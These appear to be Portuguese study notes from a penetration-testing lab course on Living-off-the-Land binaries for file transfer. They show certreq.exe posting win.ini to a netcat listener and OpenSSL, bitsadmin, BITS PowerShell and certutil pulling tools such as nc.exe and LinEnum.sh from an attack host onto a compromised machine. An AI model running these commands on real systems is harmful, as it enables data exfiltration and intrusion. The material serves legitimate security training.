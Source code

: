 A frase "Viver da terra" foi cunhada por Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) e Matt Graeber [@mattifestation](https://twitter.com/mattifestation) na [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw) 

O termo LOLBins (Living off the Land binaries) surgiu de uma discussão no Twitter sobre como chamar binários que um invasor pode usar para executar ações além de seu propósito original.

O termo LOLBins (Living off the Land binaries) surgiu de uma discussão no Twitter sobre como chamar binários que um invasor pode usar para executar ações além de seu propósito original.

- [Projeto LOLBAS para binários do Windows](https://lolbas-project.github.io/)
- [GTFOBins para binários Linux](https://gtfobins.github.io/)

Os binários Living off the Land podem ser usados ​​para executar funções como:

- Download
- Carregar
- Execução de Comando
- Leitura de arquivo
- Arquivo Gravar
- Desvios

Esta seção se concentrará no uso dos projetos LOLBAS e GTFOBins e fornecerá exemplos de funções de download e upload em sistemas Windows e Linux.

---
## Usando o Projeto LOLBAS e GTFOBins
[LOLBAS para Windows](https://lolbas-project.github.io/#) e [GTFOBins para Linux](https://gtfobins.github.io/) são sites onde podemos procurar binários que podemos usar para diferentes funções.

### LOLBAS
Para procurar funções de download e upload no [LOLBAS](https://lolbas-project.github.io/) podemos usar `/download`ou `/upload`.

![[Pasted image 20240826103025.png]]

Vamos usar [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) como exemplo.

Precisamos escutar em uma porta em nosso host de ataque o tráfego de entrada usando o Netcat e então executar certreq.exe para carregar um arquivo.

#### Carregue win.ini para nossa Pwnbox
```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

Isso enviará o arquivo para nossa sessão ``Netcat``, e poderemos copiar e colar seu conteúdo.

#### Arquivo recebido em nossa sessão Netcat
```shell-session
NycolasES6@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Se você receber um erro ao executar `certreq.exe`, a versão que você está usando pode não conter o parâmetro `-Post`. Você pode baixar uma versão atualizada [aqui](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) e tentar novamente.

### GTFObins
Para procurar a função de download e upload no [GTFOBins para binários Linux](https://gtfobins.github.io/) , podemos usar `+file download` ou `+file upload`.

![[Pasted image 20240826103249.png]]

Vamos usar [o OpenSSL](https://www.openssl.org/) . Ele é frequentemente instalado e frequentemente incluído em outras distribuições de software, com administradores de sistemas usando-o para gerar certificados de segurança, entre outras tarefas. O OpenSSL pode ser usado para enviar arquivos "estilo nc".

Precisamos criar um certificado e iniciar um servidor em nossa Pwnbox.

#### Crie um certificado em nossa Pwnbox
```shell-session
NycolasES6@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

#### Levante o servidor em nossa Pwnbox
```shell-session
NycolasES6@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Em seguida, com o servidor em execução, precisamos baixar o arquivo da máquina comprometida.

#### Baixar arquivo da máquina comprometida
```shell-session
NycolasES6@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Outras ferramentas comuns de Living off the Land

### Função de download do Bitsadmin
O [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) pode ser usado para baixar arquivos de sites HTTP e compartilhamentos SMB. Ele verifica "inteligentemente" a utilização do host e da rede para minimizar o impacto no trabalho de primeiro plano de um usuário.

#### Download de arquivo com Bitsadmin
```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

O PowerShell também permite a interação com o BITS, permite downloads e uploads de arquivos, oferece suporte a credenciais e pode usar servidores proxy especificados.

#### Download
```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil
Casey Smith ( [@subTee](https://twitter.com/subtee?lang=en) ) descobriu que o Certutil pode ser usado para baixar arquivos arbitrários. Ele está disponível em todas as versões do Windows e tem sido uma técnica popular de transferência de arquivos, servindo como um padrão `wget`para o Windows. No entanto, a Antimalware Scan Interface (AMSI) atualmente detecta isso como uso malicioso do Certutil.

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```































